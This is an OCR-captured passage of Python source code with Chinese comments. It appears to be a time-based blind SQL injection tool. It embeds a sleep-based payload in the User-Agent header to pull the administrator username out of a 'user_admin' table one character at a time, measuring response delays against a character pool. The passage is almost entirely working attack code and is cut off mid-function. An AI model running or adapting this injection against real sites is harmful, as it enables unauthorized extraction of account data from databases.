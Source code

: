 ```
        doesitwork=recvtime-sendtime
        if(doesitwork>5):
            print("The length is",num)
            print("This step cost:",time.time()-starttime)
            return num
            break
        if(num==total-1):
            return 0

#获取内容用的User-Agent模板
ua="'-(if((ascii(substr((select name from user_admin limit 1), 1, 1))=97),sleep(5),1))-'', '127.0.0.1','time') #"
        
#-----------------------------------------------------获取管理员用户名--------------------------------------------
def getcontent(field,tbname,num,qr,lock):

    #print(num)
    pool="@.tescomadin$ABCDEFGHIJKLMNOPQRSTUVWXYZ"+" "+"bcefghjklpqrstuvwxyz1234567890/."
    
    result=[]
    
    ua_head="'-(if((ascii(substr((select "
